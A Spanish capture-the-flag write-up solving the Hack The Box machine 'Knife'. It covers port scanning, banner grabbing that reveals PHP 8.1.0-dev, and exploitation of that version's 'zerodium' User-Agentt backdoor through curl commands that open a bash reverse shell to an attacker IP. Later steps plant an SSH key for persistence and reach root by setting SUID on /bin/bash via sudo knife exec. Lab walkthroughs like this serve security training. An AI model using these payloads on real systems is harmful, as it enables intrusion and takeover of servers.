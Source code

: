 # KNIFE MACHINE

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/1.png)

## ENUMERACION

Vemos que puertos abiertos tiene

```
nmap -p- --opent -T5 -n -v 10.129.112.108 -oG allPorts
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/2.png)

vamos a enumerar los servicios:

```
nmap -p22,80 -sC -sV 10.129.112.108 -oN targeted
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/3.png)

tiene el ssh que debe ser para conectarse en un futuro y el puerto 80 que es una pagina web, veamos que hay:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/4.png)

Esta pagina es muy interesante pues con wfuzz y gobuster no hemos logrado identificar subdominios o directorios. La pagina no utiliza ningun framework o CMS. Parecia no tener nada pero ahi es cuando se aprende algo y es el uso de una enumeracion con pinzas.

Wappalyzer nos muestra estas tecnologias:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/5.png)

vemos PHP 8.1.0 y apache 2.4.41 se va con lo que se tiene. Vamos a hacer un banner grabbing a la pagina para ver que informacion nos puede mostrar que normalmente cuando se encuentra algo con wfuzz la obviamos.

## EXPLOTACION

Hicimos un banner grabbing a la pagina para ver si nos detalla algua tecnologia:

### FORMAS DE HACER BANNER GRABBING

```
curl -I 10.129.112.108

-I es solo para mostrar headres
```

```
wget -q -S 10.129.112.108

-q para desactivar la salida del wget
-S para mostrar headers
```

```
whatweb http://10.129.112.108
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/6.png)

vemos las versiones de las tecnologias que enumeramos mas un detalle, la version de PHP es la 8.1.0-dev que eso no mostraba el wappalyzer.

Vamos a buscar algo con esa version de PHP. Tanto buscar di con este repositorio:

[https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

Mediante la adicion de una cabecera "User-Agentt" (con doble t) le indicamos la palabra 'zerodium' y despues una instruccion en codigo php, nos lo interpreta.

Mediante el codigo del ese repositorio me guie para enviar la cabecera:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/7.png)

vemos que la cabecera tiene el valor de zerodiumsystem();, esto es porque en php puedes ejecutar comandos del sistema de diferentesformas entre ellas con system():

```
exec() -> ejecuta un programa externo
shell_exec() -> devuelve la salida como una cadena
system() -> muestra la salida como es
```

podemos usar el script del repositorio o curl para mandar esta cabecera, vamos a usar curl para mandarnos una bash a nosotros. Estaremos escuchando en el puerto 4242:

```
curl -i -H "User-Agentt: zerodiumsystem('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108

-H para enviar headers
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/8.png)

vemos que entramos como james.

Tambien podriamos hacer:

```
curl -i -H "User-Agentt: zerodiumexec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108

curl -i -H "User-Agentt: zerodiumshell_exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.16.30/4242 0>&1\"');" 10.129.112.108
```

Ya que estas funciones nos permiten ejecutar comandos, ya podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/9.png)

si vemos que en la misma ruta se tiene el directorio oculto .ssh podemos conectarnos por ssh con su id_rsa:

```
ls -la
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/10.png)

nosotros somos los propietarios, ingresamos a la carpeta:

```
cd .ssh
ls
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/11.png)

vemos unas llaves publicas ya creadas, podemos crear otras y poner una contraseña que sepamos:

```
ssh-keygen

<enter>

overwrite <yes>

passphrase <algo que nos acordemos> 12345
repeat passphrase <12345>

```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/12.png)

con eso creamos otra identidad RSA para ssh, lo sobrescribimos la existente. Vemos que tenemos 2 archivos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/13.png)

una es una clave publica y otra privada, vamos a crear un archivo llamado **authorized_keys** donde vamos a agregar la clave publica. Este archivo va a dejar autorizar a todo aquel que proporcione su clave par (privada) a la hora de autenticarse.

```
touch authorized_keys

cat ad_rsa.pub

echo "id_rsa.pub output" > authorized_keys
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/14.png)

ahora vamos a copiarnos a nuestra equipo kali en un archivo llamado id_rsa la clave privada y le otorgaremos el permiso 600:

```
chmod 600 id_rsa
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/15.png)

y nos autenticaremos como el usuario james a la maquina pero en lugar de contraseña le vamos a proporcionar nuestra clave privada:

```
ssh -i id_rsa james@10.129.112.108
<enter>
<colocamos el passphrase>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/16.png)

ya estamos como james a traves de ssh.


## ELEVACION DE PRIVILEGIOS

vemos que puede ejecutar como sudo este usuario:

```
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/17.png)

vemos que puede ejecutar **/usr/bin/knife** la verdad no sabia que es esto por lo que google nos ayuda bastante busque "/usr/bin/knife linux" en google y el primer enlace mostraba una documentacion de un programa.

[https://docs.chef.io/workstation/knife_setup/](https://docs.chef.io/workstation/knife_setup/)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/18.png)

Y al parecer chef es una herramienta de Devops.

Vi y en la foto muestra que se tiene que configurar un archivo de configuracion con extension rb por lo que puede deducir que interpreta el lenguaje ruby.

Bueno la idea es escalar privilegios asi que vamos a ver si knife puede ejecutar algun comando en ruby, asi lo busque en gogle y encontré esto:

[https://docs.chef.io/workstation/knife_exec/](https://docs.chef.io/workstation/knife_exec/)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/19.png)

Es posible ejecutar un script en ruby y como lo puede ejecutar el sudo podemos ver como ejecutar comandos de sistema en ruby.

En este caso al poder ejecutar un comando como sudo (root) se puede realizar la escalacion de varias formas pero lo que haremos es colocar el permiso SUID a /bin/bash.

creamos un archivo en ruby y le comocamos esto:

```
system("chmod 4755 /bin/bash")
```

con syste podemos ejecutar comandos a nivel de sistema en ruby, una vez ejecutado esto solo seria hacer un /bin/bash -p y seriamos root:

```
echo 'system("chmod 4755 /bin/bash")' > test.rb

sudo /usr/bin/knife exec test.rb

/bin/bash -p
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/KNIFE/images/20.png)

### OPCION 2

creamos un script en ruby que directamente nos muestre la flag

```
echo 'system("cat /root/root.txt")' > test.rb

sudo /usr/bin/knife exec test.rb

```
 
 ## NOTA
 
 ya como root podemos aplicar lo del id_rsa ya que se tiene el directorio .ssh en la ruta /root